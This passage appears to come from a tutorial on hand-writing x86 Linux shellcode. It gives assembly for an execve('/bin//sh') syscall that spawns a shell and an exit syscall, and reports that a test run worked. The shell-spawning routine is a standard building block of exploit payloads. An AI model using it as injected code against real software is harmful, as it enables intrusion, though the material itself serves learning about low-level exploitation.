 ```
;// Invoking EXECVE
;execve("/bin/sh", NULL, NULL);
xor eax, eax		; eax = 0

push eax		; push eax (0x0 as null terminator)
push 0x68732f2f
push 0x6e69622f		; Push '/bin//sh' (reverse order) onto the stack
mov ebx, esp		; ebx = pointer to TOS (string '/bin//sh')

push eax		; push 0x0
mov edx, esp		; edx = pointer to TOS (null)

push ebx		; push ebx (pointer to string '/bin//sh')
mov ecx, esp		; ecx = pointer to TOS

mov al, 0x0b		; #define __NR_execve 11
int 0x80
```

### exit()
The exit function is very simple and known, its code (which needs to be set into eax) is 1. This is the code used to replicate it in our Assembly code:
```
	;// Return
	;return 0;
	xor eax, eax
	xor ebx, ebx
	inc eax
	int 0x80
```

### Test run
The Assembly code has been compiled and executed; it worked as intended!